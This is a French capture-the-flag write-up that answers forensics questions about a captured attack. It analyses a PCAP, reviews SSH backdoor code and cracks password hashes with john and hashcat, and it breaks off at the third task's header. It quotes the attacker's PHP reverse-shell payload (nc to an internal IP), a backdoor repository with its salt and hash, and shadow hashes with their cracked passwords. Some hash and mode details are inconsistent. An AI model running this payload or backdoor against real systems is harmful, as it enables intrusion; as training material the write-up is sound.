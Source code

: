 # Task 1 - Forensics - Aanlyse th PCAP

##What was the URL of the page they used to upload a reverse shell?

Dans un premier temps, télécharger le document et l'ouvrir avec Wireshark. 

On tombe sur plusieurs requêtes, et la première requête HTTP fait un GET sur l'adresse 192.168.170.159/developement/

Réponse 1 : **/developement/**

## What payload did the attacker use to gain access?

Comme on sait qu'il faut intéragir avec l'application web, on filtre les protocoles par **HTTP**

Ensuite, on remarque qu'une URL se nomme : **/development/upload.php**

Pour voir l'interrieur de la trame, on fait un clic droit > Follow > HTTP Stream 

On fait une recherche CTRL+F et comme on recherche un fichier, on notre **php**. Sur les premiers résultat on voit 
qu'il sagit bien d'un payload, et en regardant les suivants, on s'aperçoit que la requête du fichier est en clair : 

Réponse 2 : **<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>**

##What password did the attacker use to privesc?

On continue de chercher dans les trames du dessous et à un moment, on s'aperçoit du résultat d'une requête "/bin/s h: 0: can't acce ss tty; job cont rol turn ed off $".
A partir de ce moment, on comprends qu'il s'agit des commandes reçu d'un terminal, donc on analyse la trame : 
clic droit > Follow > TCP Stream et on voit toutes les commandes et résultat du terminal. 

Réponse 3 : **whenevernoteartinstant**

##How did the attacker establish persistence? 

On continue d'analyser la même tram et on comprend qu'il télécharge une backdoor ssh via github et qu'il 
l'execute : 

Réponse 4 : **https://github.com/NinjaJc01/ssh-backdoor**

## Using the fasttrack wordlist, how many of the system passwords were crackable?

On commence par créer un fichier avec les différents hash qu'on peut retrouver dans la tram TCP 
``` 
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.
```
Pour identifier le type de hash, on utilise un tool, HashId :

``` hashid -j '$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/' ```
l'option **-j** permet de dire que la recherche est pour le crackeur de mot de passe John The Ripper. 
Si on aurait voulu utiliser Hashcat, il aurait fallut remplacer **-j** par **-m**. 

on peut voir qu'il sagit du format

``` [+] SHA-512 Crypt [JtR Format: sha512crypt] ```

On peut donc exécuter la commande pour cracker les hash : 

```
john --wordlist=/usr/share/wordlists/fasttrack.txt --format=sha512crypt hash.txt 

secret12         (?)     
abcd123          (?)     
1qaz2wsx         (?)     
secuirty3        (?)
```
On obtient donc 4 mots de passes. 

Réponse 5 : **4**

# Task 2 Research - Analyse the code

## What's the default hash for the backdoor?

Pour comprendre comment fonctionne la backdoor, il faut se rendre sur le lien :

[GitHub][https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go]

Et dans les premières lignes on voit clairement le hash : 

Réponse 6 : **bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3**

## What's the hardcoded salt for the backdoor?

Quand on lit le fichier, on voit deux fonctions qui prennent en compte les mêmes paramètres : 
``` 
func verifyPass(hash, salt, password string) bool {
	resultHash := hashPassword(password, salt)
	return resultHash == hash
}

func hashPassword(password string, salt string) string {
	hash := sha512.Sum512([]byte(password + salt))
	return fmt.Sprintf("%x", hash)
}
```
Quand on descend tout ne bas du fichier, on retrouve une autre fonction qui reprend elle aussi les mêmes 
paramètre à une exception près. Le salt est encodé en dur : 

``` 
func passwordHandler(_ ssh.Context, password string) bool {
	return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```
Réponse 7 : **1c362db832f3f864c8c2fe05f2002a05**

## What was the hash that the attacker used? - go back to the PCAP for this!

Quand on retourne sur la tram analysée on s'aperçoit que la personne utilise un paramètre **-a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed**

Dans la fonction (du fichier), il est écris que : **a** correspondait au hash de la backdoor 
``` flaggy.String(&hash, "a", "hash", "Hash for backdoor") ```
Donc la réponse se trouve après le **-a** de la commande effectuée par la personne. 

réponse 8 : **6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed**

## Crack the hash using rockyou and a cracking tool of your choice. What's the password

Du coup on prend le hash utilisé par l'attaquant : **6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654**

On y ajoute le salt à la fin séparé par deux points ":" : **6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05**

On va chercher à quel type de hash il correspond : 

```
hashid -m '6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05'

[+] SHA-512 [Hashcat Mode: 1700]

```
Comme on sait que le mot de passe est salé mais que le SHA-512 n'est lui, pas salé, on va rechercher le numéro 
du mode avec lequel la méthode de crytage SHA-512 est salé : 

```
hashcat -h | grep SHA-512

1710 | sha512($pass.$salt)                                        | Raw Hash salted and/or iterated
```
On constate que le mode 1710 contient le $pass.$salt exactement ce que l'on a. 

On a plus qu'à executer la commande pour cracker le hash : 

```
hashcat -m 1720 hash -a 0 /usr/share/wordlists/rockyou.txt

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
```
réponse 8 : **november16**

# Task 3 Attack - Get back in! 

